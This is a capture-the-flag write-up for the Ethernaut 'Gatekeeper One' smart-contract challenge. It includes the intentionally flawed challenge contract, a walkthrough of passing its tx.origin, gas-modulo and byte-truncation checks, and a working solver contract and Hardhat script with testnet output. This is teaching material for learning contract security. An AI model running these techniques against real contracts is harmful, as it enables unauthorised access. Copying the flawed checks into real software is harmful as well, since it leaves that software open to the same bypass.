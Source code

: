 ```yaml
---
title: Ethernaut Gatekeeper One
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Gatekeeper One challenge writeup
---
```


## Gatekeeper One

### Challenge

Make it past the gatekeeper and register as an entrant to pass this level.

#### Things that might help:

* Remember what you've learned from the Telephone and Token levels.
* You can learn more about the special function `gasleft()`, in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### Background

This challenge is rather simple. It mainly has multiple conditions in order that need to be satisfied in order to pass the challenge. The only thing that is not trivial is how to get the `gasleft` to be a multiple of `8191`.

### Attack

In order to enter, three `modifier`s need to be satisfied, the first require the `msg.sender` and `tx.origin` to be different. This can be achieved using a smart contract to trigger the `enter` function. Then the `gas` needs to be estimated such that it has a remainder of `8191` when `gasleft()` is reached. Finally the `_gateKey` needs to have some non-zero value for the 4 MSB, then two zeros and then the last two bytes of the `tx.origin`.

* Create a contract that:
  * calls the `GatekeeperOne` `enter` function
  * has a specific `gas` associated with the `enter` function
* Generate the `_gateKey` by:
  * Using `0x00000001` as the MSB
  * Then `0x0000` as the next two bytes
  * Finally the last two bytes of `tx.origin`
* Trigger the attacker controlled contract to call the `enter` function

#### GatekeeperOneSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/GatekeeperOne.sol';

contract GatekeeperOneSolve {

    constructor() public {}
    
    function enter (address payable _gatekeeperOneAddress, bytes8 _gateKey) public payable {
        GatekeeperOne gatekeeperOneContrtact = GatekeeperOne(_gatekeeperOneAddress);
        gatekeeperOneContrtact.enter{gas: 868500}(_gateKey);
    }

}
```

In order to deduce the gas amount I used remix, debuged the contract execution in the remix vm, and checked what the `gas` opcode pushed onto the stack. I then found how much i needed to add (or subtract) in order for that value to be a multiple of 8191 and I added it to the `gas` I provided. I then had to reduce the value a bit when executing for the rinkeby network, because I set a the `gas` lower in my `hardhat.config.js`.

#### gatekeeper-one-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    gatekeeperOneAddress = "0x24315b9ab5e38cF2F6126F7827D2EB3aC5296b27";
    contract = await ethers.getContractAt("GatekeeperOne", gatekeeperOneAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];
    
    GatekeeperOneSolve = await ethers.getContractFactory("GatekeeperOneSolve");
    gatekeeperOneSolve = await GatekeeperOneSolve.deploy();
    await gatekeeperOneSolve.deployed();

    console.log("Initial entrant: " + await contract.entrant())

    // generate the gate key
    gateKey = ethers.utils.hexZeroPad(ethers.utils.hexConcat([
        "0x01", 
        "0x0000", 
        ethers.utils.hexDataSlice(account.address, 18)
    ]), 8)

    console.log(gateKey)

    // submit the gate key
    tx = await gatekeeperOneSolve.connect(account).enter(contract.address, gateKey)
    receipt = await tx.wait()

    console.log("Entrant        : " + await contract.entrant())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash$ npx hardhat run scripts/gatekeeper-one-solve.js --network rinkeby
Initial entrant: 0x0000000000000000000000000000000000000000
0x000000010000276d
Entrant        : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Well done! Next, try your hand with the second gatekeeper...
